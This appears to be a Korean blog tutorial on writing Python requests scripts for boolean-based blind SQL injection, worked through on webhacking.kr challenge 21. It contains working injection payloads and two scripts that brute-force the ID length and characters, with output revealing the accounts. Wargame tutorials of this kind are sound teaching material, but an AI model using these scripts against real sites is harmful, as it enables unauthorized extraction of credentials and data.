

Python requests를 이용한 blind injecthion 스크립트 제작

- 일단 시작하기전에 앞서 Blind SQL Injecthion에 대해 모르신다면 [이전 포스트](https://jaeseokim.tistory.com/20) 를 참조하세요.

Python의 requests라이브러리를 이용해서 패킷을 전송하고 질의한 응답값을 보고 참과 거짓을 구분하여 자동으로 분석해주는 스크립트를 제작 하는 것이 목표!

requests 라이브러리

- requests.get

  get 요청할때 사용, 전달 가능 인자값 (url, params, cookies, headers 등)

  ex) response = requests.get(url, params)

- requests.post

  post 요청할때 사용, 전달 가능 인자값 (url, data, cookies, headers 등)

  ex) response = requests.post(url, params)

- headers 구성

  headers = {'Content-Type': 'application/json; charset=utf-8'}

- cookies 구성

  cookies = {'sid': 'asdfghjk12qwe34rt'}

- params 구성

  params = {'id': 'testid', 'pw': 'testpasswd'}

- response.status_code

  응답 코드

- response.text

  응답 결과를 text로

- response.elapsed.total_seconds()

  응답까지 걸린 시간을 체크 (Time-Based Blind injecthion에 사용)

일단 간단하게 sqi를 위한 라이브러리 사용법은 위에 있는 정도만 알고 있어도 충분 합니다.

더 자세한 정보를 얻고 싶다면 [w3schools-python-requests](https://www.w3schools.com/python/module_requests.asp) 를 참조하세요.

일단 [webhacking.kr](http://webhacking.kr) 의 21번 문제를 예시로 스크립트를 작성 해보겠습니다.



문제를 보면 아이디와 비밀번호를 알아낸 다음 플래그 값을 찾아야 하는 문제 입니다.

일단 blind sql injection 점검 문자열을 작성하여 어떤 응답 값이 오는지 확인해봅니다.

일단 아이디와 패스워드 둘다 부정확 할때에는 **login fail** 이라는 응답값이 날라오고 아이디는 정확하지만 패스워드가 부정확하다고 판단 할때에는 **wrong password** 라는 값이 나타나는 것을 볼수가 있습니다.

```
https://webhacking.kr/challenge/bonus-1/index.php?id=&pw=
```

일단 url를 보면 이번 문제는 GET 으로 보내고 응답을 받는 것을 알수가 있습니다.

그리고 파라미터값은 id,pw를 통해 넘기고 있다는 것을 알수가 있습니다.

이제 패스워드를 알아내기전 아이디를 먼저 알아내보는 스크립트를 작성합니다.

```python
import requests

url = 'https://webhacking.kr/challenge/bonus-1/index.php' #url 주소를 입력
cookies = {'PHPSESSID': '사용자의 쿠기 값 입력'} #세션 쿠키를 입력

def find_id_len():
    id_len = 0
    while 1:
        id_len=id_len+1
        value = "' or char_length(id) = {}   -- '".format(id_len) #반복하면서 id의 글자수를 비교하는 Payload 코드 작성
        params = {'id': value, 'pw': 'test'} # id에 Payload 코드 삽입 pw는 아무 문자나 보낸다.
        response = requests.get(url,params=params, cookies=cookies) #GET을 통해 전달
        print(response.status_code) # 응답 코드 확인 200번아니면 오류 상태
        print(value) # 전달되는 Payload 코드 확인
        if "wrong password" in response.text: #응답 값에 wrong password가 있다면 참인 결과 이니 빠져나옴
            break
    return id_len #id 길이 반환

if __name__ == '__main__':
    print("id의 길이는 : "+str(find_id_len()))
```

**char_length()** 함수를 이용해서 반복문을 통해 만약 id의 길이가 같으면 **wrong password** 라는 값을 나타내니 break를 통해 빠져나오고 그때의 id 길이를 반환합니다.

이제 이렇게 id의 길이를 구하였는데 이러한 조건을 통해 id를 알아내도록 하겠습니다.

```python
import requests

url = 'https://webhacking.kr/challenge/bonus-1/index.php' #url 주소를 입력
cookies = {'PHPSESSID': '사용자의 쿠기 값 입력'} #세션 쿠키를 입력

def find_id_len():
    id_len = 0
    while 1:
        id_len=id_len+1
        value = "' or char_length(id) = {}   -- '".format(id_len) #반복하면서 id의 글자수를 비교하는 Payload 코드 작성
        params = {'id': value, 'pw': 'test'} # id에 Payload 코드 삽입 pw는 아무 문자나 보낸다.
        response = requests.get(url,params=params, cookies=cookies) #GET을 통해 전달
        print(response.status_code) # 응답 코드 확인 200번아니면 오류 상태
        print(value) # 전달되는 Payload 코드 확인
        if "wrong password" in response.text: #응답 값에 wrong password가 있다면 참인 결과 이니 빠져나옴
            break
    return id_len #id 길이 반환

def find_id_str(id_len):
    id_str = ""
    for len in range(1,id_len+1):
        for ascii in range(97,123): #ascii a~z까지의 값 반복
            value = "' or ascii(substring(id,{},1)) = {} -- '".format(len,ascii)  # 반복하면서 id을 substring 한다음 ascii로 변환한 값을 통해 비교해서 정답을 찾아냄
            params = {'id': value, 'pw': 'test'}  # id에 Payload 코드 삽입 pw는 아무 문자나 보낸다.
            response = requests.get(url, params=params, cookies=cookies)  # GET을 통해 전달
            print(response.status_code)  # 응답 코드 확인 200번아니면 오류 상태
            print(value)  # 전달되는 Payload 코드 확인
            if "wrong password" in response.text:  # 응답 값에 wrong password가 있다면 참인 결과 이니 빠져나옴
                id_str+=chr(ascii)+":" #참이라면 ascii코드를 char형으로 변경해서 저장
        id_str+="\n"
    return id_str #한 문자에 대한 검색이 끝날시 엔터 처리

if __name__ == '__main__':
    print("아이디 조합 : \n"+find_id_str(find_id_len()))
```

결과값을 보면 아래와 같은 결과 값이 나오는데

```
아이디 조합 :
a:g:
d:u:
e:m:
i:s:
n:t:
```

이러한 결과 값을 보고 id는 **admin, guest** 두가지 아이디가 존재 한다는 것을 확인 할 수가 있습니다.

이제 이러한 결과 값을 가지고 비번을 찾아보는 스크립트 제작은 다음 글에 이어서 알려드리겠습니다.
